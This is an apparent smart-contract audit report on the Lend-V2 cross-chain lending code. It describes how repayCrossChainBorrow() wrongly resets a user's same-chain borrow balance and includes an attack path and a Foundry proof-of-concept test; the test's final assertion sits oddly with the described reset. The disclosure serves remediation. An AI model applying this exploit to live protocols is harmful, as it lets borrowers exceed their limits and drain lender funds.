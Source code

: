 Boxy Brunette Goblin

High

# The attacker will utilize repayCrossChainBorrow() to reset borrow Balance and will be able to borrow more than they should

### Summary

In `CoreRouter.repayBorrowInternal()`, it will update the borrow balance of the user even it's called from the cross chain function.
The attacker can utilize this to reset the borrow balance of him and borrow more tokens again and again.

### Root Cause

Here is the flow of **repayCrossChainBorrow()**.
`CrossChainRouter.repayCrossChainBorrow()` -> `repayCrossChainBorrowInternal()` -> `_handleRepayment()` ->  `CoreRouter.repayCrossChainLiquidation()` -> `CoreRouter.repayBorrowInternal()`.

In this case, `_isSameChain` is false in `repayBorrowInternal()`.
```solidity
  if (_isSameChain) {
      borrowedAmount = lendStorage.borrowWithInterestSame(borrower, _lToken);
  } else { //@audit: when _isSameChain is false, borrowedAmount is calculated from cross chain borrows and collaterals
      borrowedAmount = lendStorage.borrowWithInterest(borrower, _lToken);
  }
  ...
  // Update same-chain borrow balances
  // @audit: The comment says it updates same-chain borrow balances.
  // But it's also updated when it's from cross chain functions. 
  if (repayAmountFinal == borrowedAmount) {  
      lendStorage.removeBorrowBalance(borrower, _lToken);
      lendStorage.removeUserBorrowedAsset(borrower, _lToken);
  } else {
      lendStorage.updateBorrowBalance(
          borrower, _lToken, borrowedAmount - repayAmountFinal, LTokenInterface(_lToken).borrowIndex()
      );
  }
```

`lendStorage.borrowBalance` is used to record the borrowed amount on the same chain, but it's updated by the cross chain function.

#LOC
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L472-L476
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L492-L500

### Internal Pre-conditions

N/A

### External Pre-conditions

1. tokenA and tokenB are supported tokens.
   tokenB is a destination token of tokenA.
2. Chain A has tokenA
3. Chain B has tokenB

### Attack Path

1. The attacker borrows some tokenBs on chain B.
2. The attacker borrows small amount of tokens on chain A using `borrowCrossChain()`.
3. The attacker can repay that small amount of tokens using `repayCrossChainBorrow()`.
    This resets the borrow balance of the attacker on chain B by mistake.
4. The attacker can now borrow more amount of tokenBs.

### Impact

The attacker will utilize this to reset the borrow balance of him and borrow more amount.
The protocol will lose their funds.
When `repayCrossChainBorrow()` is performed, it will cause incorrect update on borrow balance and it will affect many other features of the contract like liquidation.

### PoC

Please add the following function to `TestBorrowingCrossChain.t.sol`.
It proves that `repayCrossChainBorrow()` can reset the borrowed balance.

```solidity
function test_cross_chain_borrow_reset_borrow_balance(uint256 amountToSupply, uint256 amountToBorrow)
    public
{
    amountToSupply = bound(amountToSupply, 1e18, 1e30);

    vm.deal(address(routerA), 1 ether);

    (address tokenA, address ltokenA) = _supplyA(amountToSupply);
    (address tokenB, address ltokenB) = _supplyB(amountToSupply * 2);

    uint256 maxBorrow = (lendStorageA.getMaxBorrowAmount(deployer, ltokenA) * 0.9e18) / 1e18;

    uint256 borrowAmount = bound(amountToBorrow, 0.1e18, maxBorrow);

    vm.startPrank(deployer);

    // Borrows 20 tokens on chain B
    coreRouterB.borrow(20, tokenB);
    LendStorage.BorrowMarketState memory borrowBalanceB = lendStorageB.getBorrowBalance(deployer, ltokenB);
    assertEq(borrowBalanceB.amount, 20, "Borrow balance should be 20 after borrow");

    // Now it will reset this borrowed balance using cross chain repayment
    borrowAmount = 10;
    // Execute borrow
    routerA.borrowCrossChain(borrowAmount, tokenA, CHAIN_B_ID);

    // Confirm that dest token is token B        
    address destToken = lendStorageA.underlyingToDestUnderlying(tokenA, CHAIN_B_ID);
    assertEq(tokenB, destToken, "Token should match");

    // Confirm that there is a collateral on chain B
    LendStorage.Borrow[] memory userCrossChainCollaterals = lendStorageB.getCrossChainCollaterals(deployer, destToken);
    assertEq(userCrossChainCollaterals[0].principle, borrowAmount, "Borrow principle should match");

    // Executes repayment to reset the balance
    IERC20(tokenB).approve(address(coreRouterB), 10);
    routerB.repayCrossChainBorrow(deployer, 10, ltokenB, uint32(block.chainid));
    
    // Check the borrowed balance againss
    borrowBalanceB = lendStorageB.getBorrowBalance(deployer, ltokenB);
    assertEq(borrowBalanceB.amount, 20, "Borrow balance should be still 20 after repay cross chain");

    vm.stopPrank();
}
```

### Mitigation

_No response_